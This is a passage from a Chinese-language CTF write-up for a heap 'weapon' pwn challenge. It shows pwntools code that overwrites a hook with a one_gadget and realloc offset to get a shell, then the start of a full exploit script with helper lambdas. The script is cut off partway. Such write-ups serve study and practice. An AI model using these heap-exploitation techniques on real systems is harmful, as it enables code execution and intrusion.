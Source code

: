 ```bash
add(0x60,12,'a')
add(0x60,13,b'\x00'*0xb+p64(og)+p64(realloc+4))
```

这里 realloc 调栈上面介绍过了，然后 b'\\x00'\*0xb+p64(og) 可以当成固定的模板  
然后申请一下就 getshell 了

```bash
p.sendlineafter('choice >> ',str(1))
p.sendlineafter('wlecome input your size of weapon: ',str(0x60))
p.sendlineafter('input index: ',str(14))
```

## exp ( 关闭 ASLR )

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'



#p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,idx,content):
    sla('choice >> \n',str(1))
    sla('wlecome input your size of weapon: ',str(size))
    sla('input index: ',str(idx))
    sa('input your name:\n',content)

```